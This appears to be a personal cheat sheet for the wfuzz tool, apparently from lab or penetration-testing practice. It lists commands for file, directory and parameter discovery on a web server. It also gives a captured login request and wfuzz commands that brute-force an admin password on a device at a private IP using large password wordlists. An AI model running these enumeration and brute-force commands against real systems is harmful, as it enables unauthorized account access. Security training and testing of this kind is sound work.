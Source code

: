 # Wfuzz

export URL="http://zda:80/FUZZ"


File Discovery

wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 301,404,403 "$URL"


Directory Discovery

wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --hc 403,404 "$URL" 


Parameter Discovery - check for files on the webserver that can be used maliciously

export URL="http://zda:80/index.php?FUZZ=data"


fuzzing parameter values on a target web app
fuzzing the "fpv" parameter with a common wordlist 


wfuzz -c -z file,/usr/share/seclists/Usernames/cirt-default-usernames.txt --hc 404,301 http://zda:80/index.php?fpv=FUZZ


Fuzz the password in Burp


POST /goform/formLogin HTTP/1.1
Host: 192.168.233.45
Content-Length: 64
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.233.45
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.233.45/index.asp
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

HtmlOnly=true&Login=admin&Password=dawg&loginButton=Submit+Login


RUn this command

wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404  -d "Login=admin&Password=dawg" http://192.168.233.45/index.asp

you can restrict file size of th erequest to remove erronious responses wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404  -d "Login=admin&Password=FUZZ" --hh 229 http://192.168.233.45:80/goform/formLogin

https://www.phrack.me/tools/2022/07/06/Ffuf-cheatsheet.html

